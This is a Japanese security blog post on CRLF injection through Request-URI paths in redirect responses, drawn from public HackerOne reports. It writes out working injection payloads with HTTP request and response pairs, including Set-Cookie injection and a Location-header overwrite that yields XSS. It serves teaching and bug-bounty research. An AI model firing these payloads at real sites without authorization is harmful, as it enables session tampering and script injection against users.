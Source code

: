 ```yaml
---
description: 'Feb 14, 2018'
---
```


# Request-URIのパスからのCRLFインジェクション

ロシアのバグハンターであるSergey Bobrov氏（[@Black2Fan](https://twitter.com/Black2Fan)）が[HackerOneで公開しているレポート](https://hackerone.com/bobrov?sort_type=latest_disclosable_activity_at&filter=type%3Apublic&page=1&range=forever)を読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。

## パラメータからのCRLFインジェクション

私が今まで行なっていた方法は、パラメータの値がレスポンスヘッダに出力される箇所で、値に改行コードを含めて確認するだけだった。値がSet-CookieヘッダやLocationヘッダに含まれるパラメータを対象に、[RFCでヘッダフィールドの終端として認められている](http://httpwg.org/specs/rfc7230.html#message.robustness) `CRLF`（%0D%0A）と `LF`（%0A）に加え、Firefoxを除く主要ブラウザ¹で終端として扱われる `CR`（%0D）も含めて確認していた。具体的には以下のような動作である。

hxxp://example.jp/?l=en%0D%0ASet-Cookie:crlf=injection

```http
GET /?l=en%0D%0ASet-Cookie:crlf=injection HTTP/1.1
Host: example.jp
...
```

```http
HTTP/1.1 200 OK
Date: Sun, 11 Feb 2018 00:00:00 JST
Server: Apache
Set-Cookie: lang=en
Set-Cookie:crlf=injection
...
```

## パスからのCRLFインジェクション

Bobrov氏が行なっていたのは、30xリダイレクトが発生する箇所でRequest-URIのパスに改行コードを含め、Locationヘッダの出力を確認する方法だった。レポートのリダイレクト処理に注目すると以下のケースに分けられる。

* HTTPSへのリダイレクト
* 異なるホストへのリダイレクト
* トレイリングスラッシを削除するリダイレクト

各ケースでのCRLFインジェクションについてレポートを参考にまとめていく。

### HTTPSへのリダイレクト

HTTPSのページにHTTPで接続すると、HTTPSへのリダイレクトが発生する箇所でのケースである。その際のパスに改行コードを含めることで、Locationヘッダの出力で改行できる場合がある。以下は[Sucuriへのレポート](https://hackerone.com/reports/144769)を参考にした例である。

hxxp://support.example.net/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: support.example.net
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Tue, 14 Jun 2016 19:56:14 GMT
Server: Apache
Location: https://support.example.net/#
Set-Cookie:crlf=injection
...
```

改行コードの手前に `#`（%23）を含めているのは、それ以降がフラグメントとして処理され、Locationヘッダに出力されたからだと考える。パスやクエリは出力しないようにしていた、または改行コードをエスケープして出力していたが、通常サーバに送信されないフラグメントは想定外だったのだろうか。[Trelloへのレポート](https://hackerone.com/reports/45514)のようにHTTPSからHTTPへのリダイレクトという逆のケースもあった。

### 異なるホストへのリダイレクト

接続したホストから別のホスト、または特定のパスへリダイレクトする箇所でのケースである。以下は[ownCloudへのレポート](https://hackerone.com/reports/154306)を参考にした `api.example.org` から `doc.example.org/api/` へのリダイレクトでの例である。

hxxps://api.example.org/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: api.example.org
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Wed, 27 Jul 2016 10:28:01 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000
X-Xss-Protection: 1; mode=block
Location: https://doc.example.org/api/#
Set-Cookie:crlf=injection
...
```

以前使われていたホストから現在のホストへの変更処理だろう。この他にも[Mail.Ruへのレポート](https://hackerone.com/reports/15492)のような `example.jp` から `example.jp/en/` への言語変更や、[Greenhouse.ioへのレポート](https://hackerone.com/reports/25275)のような `example.jp` から `www.example.jp` へのサブドメインの変更でも検出されている。

### トレイリングスラッシュを削除するリダイレクト

パスの末尾にある `/` を[トレイリングスラッシュ](https://webmasters.googleblog.com/2010/04/to-slash-or-not-to-slash.html)と呼ぶ。このトレイリングスラッシュがある場合は通常ディレクトリを指し、ない場合はコンテンツを指す。サイトによっては `/about/` のようなディレクトリの要求に対して、トレイリングスラッシュを削除して `/about` のようなコンテンツの要求へ変更する場合がある。以下は[Mail.Ruへのレポート](https://hackerone.com/reports/67386)を参考にしたトレイリングスラッシュを削除する際のリダイレクトでの例である。

hxxp://m.my.example.jp/crlftest%0DSet-Cookie:crlf=injection/

```http
GET /crlftest%0DSet-Cookie:crlf=injection/ HTTP/1.1
Host: m.my.example.jp
...
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 11 Jun 2016 00:00:00 GMT
Content-Type: text/html
Location: http://m.my.example.jp/crlftest
Set-Cookie:crlf=injection
...
```

これは `crlftest` という存在しないコンテンツを要求した場合の例だが、存在するコンテンツを要求した場合のみトレイリングスラッシュを削除する箇所もある。これとは逆にトレイリングスラッシュを追加する際にリダイレクトが発生する箇所もある。そのような箇所でもパスから改行コードを挿入できる可能性はある。

## CRLFインジェクションによるLocationヘッダの上書き

Bobrov氏のレポートのなかで[Starbucksへのレポート](https://hackerone.com/reports/192667)だけが、リダイレクトを止めてXSSにつなげていた。リダイレクトを止める方法はブラウザごとに異なるため、レポートではChromeとFirefoxのPoCを示している。以下はFirefoxの例である。

hxxp://stagecafrstore.example.com/%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert\(document.domain\)%3C/script%3E

```http
GET /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: stagecafrstore.example.com
...
```

```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
...
```

このケースは `?`（%3F）と `CRLF`（%0D%0A）の後にLocationヘッダを挿入している点が興味深い。本来はHTTPSのページまたは異なるホストへのLocationヘッダが出力されていたが、CRLFインジェクションによってヘッダを上書きできたのだろう²。Locationヘッダを上書きしてリダイレクト先に `:1` のような[ブロック対象のポート](https://developer.mozilla.org/en-US/docs/Mozilla/Mozilla_Port_Blocking)を設定することで、リダイレクトを止めてレスポンスボディを表示させている³。ChromeではLocationヘッダの値を空にすることでリダイレクトを止めている。Request-URIのパスからのCRLFインジェクションでも、Locationヘッダを上書きできるケースはあるようだ。

## 所感

プログラム言語やフレームワークでの対策によって、CRLFインジェクションは作り込まれにくい脆弱性になったと考えていた。最近の診断でもほとんど見かけることはなかった。しかし今回取り上げた事例は最近でも検出される場合があり、HackerOneでは他にもレポートが公開されている。Zeronights 2017の「[CRLF and OpenRedirect](https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies)」でも、この事例は取り上げられていた。これだけ検出されているのだから、今後バグバウンティの対象になるサイトでも当然検出されるだろう。スコープ内であれば認定される可能性が高い脆弱性なので狙い目だ。



¹ Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
² 徳丸本のP.195「外部ドメインへのリダイレクト」にあるようなCGI特有の動作だと考える。  
³ はせがわさんが[ポートブロッキングを使う方法](http://d.hatena.ne.jp/hasegawayosuke/20161210/p1)をまとめている。


